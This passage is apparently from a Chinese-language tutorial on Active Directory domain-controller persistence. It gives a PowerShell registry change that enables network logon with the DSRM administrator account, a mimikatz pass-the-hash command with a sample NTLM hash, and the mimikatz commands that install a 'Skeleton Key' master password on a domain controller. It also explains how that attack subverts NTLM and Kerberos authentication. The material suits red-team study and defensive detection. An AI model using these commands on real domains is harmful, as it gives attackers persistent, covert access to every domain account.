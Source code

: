 3.  修改 DSRM 的登录方式

DSRM 有三种登录方式，具体如下：

> 0：默认值，只有当域控制器重启并进入 DSRM 模式时，才可以使用 DSRM 管理员账号 1：只有当本地 AD、DS 服务停止时，才可以使用 DSRM 管理员账号登录域控制器 2：在任何情况下，都可以使用 DSRM 管理员账号登录域控制器

在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。如果要使用 DSRM 账号通过网络登录域控制器，需要将该值设置为 `2`。输入如下命令，可以使用 PowerShell 进行更改。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD<br>``` |

4.  使用本地 administrator 账号哈希传递攻击域控

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>sekurlsa::pth /domain:DC /user:administrator /ntlm:0f0de1776a3bf0f2a29b6f15b6fcba42<br>``` |

##### [](#2122-%E5%B0%86-dsrm-%E7%9A%84%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E4%B8%BA%E4%B8%80%E4%B8%AA%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%B7%B2%E7%9F%A5%E5%AF%86%E7%A0%81)2.1.2.2 将 DSRM 的密码同步为一个域用户的已知密码

其余方法同上。

### [](#22-skeleton-key-%E4%B8%87%E8%83%BD%E5%AF%86%E7%A0%81)2.2 Skeleton Key 万能密码

> Skeleton Key 被安装在 64 位的域控服务器上 支持 Windows Server2003 — Windows Server2012 R2 能够让所有域用户使用同一个万能密码进行登录 现有的所有域用户使用原密码仍能继续登录 重启后失效

使用 Skeleton Key 攻击时，NTLM、Kerberos 两种身份验证方法都会被篡改。例如，在 NTLM 身份验证期间，已注入 LSASS 进程中的主密码哈希将不会与 SAM 数据库进行比较，而将与 Skeleton Key 哈希进行比较，因此，身份验证将成功。

Kerberos 加密也将降级为不支持 Salt（RC4\_HMAC\_MD5）的算法，并且从活动目录中检索到的哈希将替换为 Skeleton Key 哈希。因此，主密码的哈希值将始终在服务器端进行验证，并且两种方法的身份验证都将成功。

#### [](#221-%E5%9C%A8%E5%9F%9F%E6%8E%A7%E4%B8%8A%E5%AE%89%E8%A3%85-skeleton-key)2.2.1 在域控上安装 Skeleton Key

mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print](assets/1699409504-8ece0e4853812ff45511b7dbf559a1e0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print")
